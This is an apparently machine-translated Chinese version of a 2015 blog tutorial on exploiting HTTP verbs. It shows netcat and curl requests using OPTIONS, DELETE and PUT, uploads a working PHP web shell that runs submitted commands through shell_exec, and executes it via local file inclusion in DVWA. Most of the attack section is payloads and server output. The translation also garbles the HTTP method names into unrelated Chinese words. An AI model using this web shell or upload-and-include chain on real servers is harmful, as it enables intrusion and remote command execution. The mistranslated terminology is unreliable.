


# 利用 HTTP 动词

> 原文：<https://infosecwriteups.com/exploiting-http-verbs-c7b42f365cf4?source=collection_archive---------1----------------------->

HTTP 协议由下列动词或方法组成。

*   得到
*   头
*   邮政
*   放
*   删除
*   连接
*   选择
*   找到；查出

我将展示一些有趣的 HTTP 动词，它们可以用来闯入服务器。嗯，这些攻击可能非常罕见，但请考虑共享🙂

服务器中启用了 OPTIONS 谓词，它可用于查看所有已配置的 HTTP 方法。

```
% nc localhost 80
OPTIONS / HTTP/1.0HTTP/1.1 200 OK
Allow: OPTIONS, TRACE, GET, HEAD, POST
Server: Microsoft-IIS/7.5
Public: OPTIONS, TRACE, GET, HEAD, POST
X-Powered-By: ASP.NET
Date: Sun, 14 Jun 2015 05:31:10 GMT
Connection: close
```

删除动词是一个危险的动词，可能会被误用。如果配置错误，可用于从 web 服务器上删除资源。

```
% nc localhost 80
DELETE  /location/resource HTTP/1.0Date: Sun, 14 Jun 2015 05:01:22 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Set-Cookie: PHPSESSID=ete39c4b0uk83phvucj1ftbsn5; expires=Mon, 15 Jun 2015 05:01:22 GMT; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
```

该动词可用于将资源上传到服务器。如果配置不当，这也是一个危险的动词。比如，假设我们要写“*”<？PHP echo‘Hello World’；？>* 在新文件中命名为“hello.php”。确保给出正确的有效载荷长度。

```
%  cat -e hello.php 
<?php echo 'Hello World'; ?>$% wc -m hello.php 
29 hello.php% nc localhost 80
PUT /hello.php HTTP/1.0
Content-Type: text/html
Content-Length: 29<?php echo 'Hello World'; ?>
```

PHP 支持 PUT 动词。这是一个示例程序，它将从 PUT 请求中接收数据，并将其保存为“ *myfile* ”。

```
<?php
    $putdata = fopen("php://input", "r");
    $fp = fopen("myfile", "w");
    while ($data = fread($putdata, 1024)) fwrite($fp, $data);
    fclose($fp);
    fclose($putdata);
?>
```

我将把它作为“put.php”保存在 web 服务器的根目录下。
现在我们可以使用 put 动词请求“put.php ”,并发送我们的有效负载。

```
% cat -e phpinfo.php 
<?php phpinfo(); ?>$% wc -m phpinfo.php 
20 phpinfo.php% nc 192.168.1.5 80
PUT /put.php HTTP/1.0
Content-Type: text/html
Content-Length: 20<?php phpinfo(); ?>
HTTP/1.1 200 OK
Date: Mon, 15 Jun 2015 06:48:16 GMT
Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
X-Powered-By: PHP/5.4.22
Content-Length: 0
Connection: close
Content-Type: text/html
```

现在，如果你查看" *myfile* "我们的有效载荷应该写得很好。
假设您有一个本地文件包含情况，在这种情况下，我们可以使用 PUT 来包含我们新编写的文件。
这是本地文件包含的一个例子。我将用 DVWA 来演示这一点。

```
<?php
    echo "File included: ".$_REQUEST["page"]."&lt;br&gt;";
    $file =  $_REQUEST["page"];
    include $file;
?>
```

`[http://localhost/dvwa/vulnerabilities/fi/?page=](http://localhost/dvwa/vulnerabilities/fi/?page=)../../../myfile`



假设我们想要上传一个简单的 web shell，我们可以像下面这样做😉

```
% wc -m shell.php 
189 shell.php% nc 192.168.1.5 80
PUT /put.php HTTP/1.0
Content-Type: text/html
Content-Length: 189<?phpprint '<form method="post">
Command: <input type="text" name="__"><br>
<input type="submit">
</form>';if(isset($_POST["__"]))
 print '<pre>'.shell_exec($_POST["__"]).'</pre>';?>
HTTP/1.1 200 OK
Date: Mon, 15 Jun 2015 07:39:42 GMT
Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
X-Powered-By: PHP/5.4.22
Content-Length: 0
Connection: close
Content-Type: text/html
```

在那之后包括我们的“ *myfile* ”，你就可以在服务器上执行命令了。



您还可以使用 curl 通过 PUT 轻松上传文件。

```
% curl [http://192.168.1.5/put.php](http://192.168.1.5/put.php) --upload-file shell.php -v
* About to connect() to 192.168.1.5 port 80 (#0)
*   Trying 192.168.1.5...
* connected
* Connected to 192.168.1.5 (192.168.1.5) port 80 (#0)
> PUT /put.php HTTP/1.1
> User-Agent: curl/7.26.0
> Host: 192.168.1.5
> Accept: */*
> Content-Length: 189
> Expect: 100-continue
> 
* additional stuff not fine transfer.c:1037: 0 0
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 100 Continue
* additional stuff not fine transfer.c:1037: 0 0
* We are completely uploaded and fine
* HTTP 1.1 or later with persistent connection, pipelining supported
< HTTP/1.1 200 OK
< Date: Mon, 15 Jun 2015 07:47:44 GMT
< Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
< X-Powered-By: PHP/5.4.22
< Content-Length: 0
< Content-Type: text/html
< 
* Connection #0 to host 192.168.1.5 left intact
* Closing connection #0
```

感谢阅读！

【1】[http://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html](http://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html)
【2】[https://tools.ietf.org/html/rfc7231](https://tools.ietf.org/html/rfc7231)

*原载于 2015 年 6 月 14 日*[*http://osandamalith.com*](https://osandamalith.com/2015/06/14/exploiting-http-verbs/)*。*